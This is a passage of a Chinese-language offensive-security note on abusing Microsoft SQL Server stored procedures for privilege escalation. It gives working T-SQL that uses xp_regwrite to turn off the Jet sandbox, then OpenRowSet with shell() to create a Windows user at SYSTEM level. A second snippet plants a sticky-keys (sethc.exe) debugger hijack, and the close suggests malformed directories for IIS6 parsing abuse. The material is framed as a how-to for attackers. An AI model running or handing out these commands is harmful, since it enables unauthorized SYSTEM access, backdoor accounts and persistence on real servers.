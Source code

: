 ```

```

当然这里只是一种思路，你完全可以用vbs来下载什么的

## 沙盒提权

```mssql
1. exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

2. exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

3. Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Databasec:\windows\system32\ias\ias.mdb','select shell( net user itpro gmasfm /add )');
```

引用前辈们的话

> 1，Access可以调用VBS的函数，以System权限执行任意命令
> 2，Access执行这个命令是有条件的，需要一个开关被打开
> 3，这个开关在注册表里
> 4，SA是有权限写注册表的
> 5，用SA写注册表的权限打开那个开关
> 6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令

## xp_regwrite

修改注册表 来劫持粘贴键 当然在2008数据库是不成立的 因为默认权限很低

```
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','C:\WINDOWS\explorer.exe';

```



mssql众多的储存过程是我们利用的关键，还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir建立个畸形目录解析。
